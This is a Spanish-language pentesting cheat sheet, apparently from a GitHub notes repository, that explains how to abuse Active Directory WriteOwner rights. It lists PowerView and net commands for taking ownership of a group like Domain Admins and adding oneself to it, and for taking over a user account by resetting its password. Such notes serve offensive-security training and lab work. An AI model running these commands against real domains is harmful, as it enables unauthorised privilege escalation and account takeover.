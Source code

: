 ### Sobre un grupo

La idea aquí es hacernos "dueños" del el grupo sobre el que tenemos privilegios `WriteOwner`. Si por ejemplo tenemos `WriteOwner` sobre el grupo `DomainAdmins` podemos hacernos dueños de él y meternos dentro:

```powershell
Set-DomainObjectOwner -Identity "<GRUPO>" -OwnerIdentity <USUARIO>
```

Ahora que somos "dueños" del grupo podemos ejecutar el siguiente comando:

```powershell
Add-DomainObjectAcl -TargetIdentity "<GRUPO>" -Rights All -PrincipalIdentity <USUARIO>
```

Todavía no estamos en el grupo que queremos, en este caso `DomainAdmins`, pero como somos "dueños" simplemente nos podemos agregar:

```powershell
net group "<GRUPO>" <USUARIO> /add /domain
```

Si el usuario el cuál tiene WriteOwner sobre el grupo no pertenece a Remote Management Users, por lo tanto no podemos ejecutar el comando `net`, haremos uso de `Add-DomainGroupMember`:

```powershell
Add-DomainGroupMember -Identity '<GRUPO>' -Members '<USUARIO>' -Credential $cred
```

Ya con esto podemos hacer lo que se nos permita en el grupo.
>Cabe destacar que deberás cerrar la shell y volver a entrar.

### Sobre un usuario

En caso de tener este derecho sobre un usuario y no un grupo, la cosa cambia un poco, muy poquito, ya que al hacernos dueños del usuario podemos cambiarle la contraseña:

```powershell
Set-DomainObjectOwner -Identity "<USUARIO1>" -OwnerIdentity <USUARIO2>
```

```powershell
Add-DomainObjectAcl -TargetIdentity "<USUARIO1>" -Rights ResetPassword -PrincipalIdentity <USUARIO2>
 ```

Ahora con `SetDomainUserPassword` podemos cambiar la contraseña, pero antes necesitaremos crear una variable que contenga esta:

```powershell
$cred = ConvertTo-SecureString "P@$$w0rd!" -AsPlainText -Force
```

Ahora bien, podemos hacer uso de la utilidad de `PowerView`:

```powershell
Set-DomainUserPassword -Identity <USUARIO> -AccountPassword $cred
```

## ForceChangePassword
